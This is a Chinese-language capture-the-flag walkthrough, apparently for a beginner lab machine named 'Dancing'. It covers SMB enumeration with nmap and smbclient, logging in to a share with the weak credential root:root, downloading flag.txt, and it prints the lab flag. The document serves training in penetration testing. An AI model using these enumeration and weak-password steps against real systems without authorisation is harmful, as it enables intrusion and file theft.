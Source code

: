 ```yaml
---
title: Dancing
icon: binary
date: 2025-07-09
tags:
  - SMB弱口令
  - enum4linux扫描SMB信息
  - SMB基础操作
icons: sqaure-share-nodes
---
```

[[toc]]
## 参考资料 &&  参考WP
- [维基百科  - SMB](https://it.wikipedia.org/wiki/Server_Message_Block)
- [HackViser - SMB 渗透 Intro](https://hackviser.com/tactics/pentesting/services/smb)
***
## Tasks
### Task1 `SMB`全称是什么
```
Server Message Block
```
### Task2 `SMB`的常用端口是什么
```
TCP 445
UDP 137 138 and TCP 137 139 (NetBIOS over TCP/IP)
```
### Task3 Nmap扫描端口`445`的结果
```shell
└─# nmap -T5 -A -p 445 10.129.255.122  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-09 06:50 EDT
Nmap scan report for 10.129.255.122
Host is up (0.00024s latency).

PORT    STATE    SERVICE      VERSION
445/tcp filtered microsoft-ds <-- Task3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized
Running: Microsoft Windows XP|7|2012, VMware Player
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2012 cpe:/a:vmware:player
OS details: Microsoft Windows XP SP3 or Windows 7 or Windows Server 2012, VMware Player virtual NAT device
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.18 ms 192.168.100.2
2   0.22 ms 10.129.255.122

```
### Task4 哪个`switch`（开关）可以用来通过`smbclient`工具 *列出*  靶机上可用的共享
![](assets/Pasted%20image%2020250709190027.png)
```shell
└─# smbclient --list=10.129.255.122
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk   
```
`root`弱口令，一试就出来了：`root`

也可以用下面的指令连接：
```shell
smbclient -L //10.129.255.122 -U root 
```
### Task5 靶机的SMB服务有几个共享 
```
4
```
### Task6 哪个共享是可以以空口令登入的
```shell
smbclient //<IP地址>/<共享名> -U <用户名>%<密码>
smbclient //10.129.255.122/WorkShares -U root%root
```
### Task7 smb shell中的哪个指令是用来下载文件的
![](assets/Pasted%20image%2020250709191101.png)
```shell
get
```
### Task8 提交flag
```shell
cd James.P
get flag.txt

5f61c10dffbc77a704d76016a22f1664
```
## 回顾
### `smbclient`基础操作
```shell
# 列出可用共享
smbclient --list=<IP>
smbclient -L //<IP> -U <username>%<passwd> 
```

```shell
# 登录
smbclient //<IP地址>/<共享名> -U <用户名>%<密码>
```

***
## 页面底部